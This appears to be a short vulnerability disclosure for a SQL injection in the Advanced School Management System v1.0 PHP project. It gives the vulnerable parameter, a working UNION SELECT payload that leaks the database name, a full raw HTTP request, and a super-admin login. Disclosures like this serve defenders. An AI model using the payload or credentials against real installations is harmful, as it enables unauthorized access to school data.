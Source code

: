# Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_classroom.php?id=

Vulnerability location: /school/model/get_classroom.php?id=,id

[+] Payload: /school/model/get_classroom.php?id=-18%20union%20select%201,database(),3--+ // Leak place ---> id

Current database name: std_db,length is 6

```sql
GET /school/model/get_classroom.php?id=-18%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970604-e257ad5e-a41a-4af8-9507-30030eba9d5a.png)
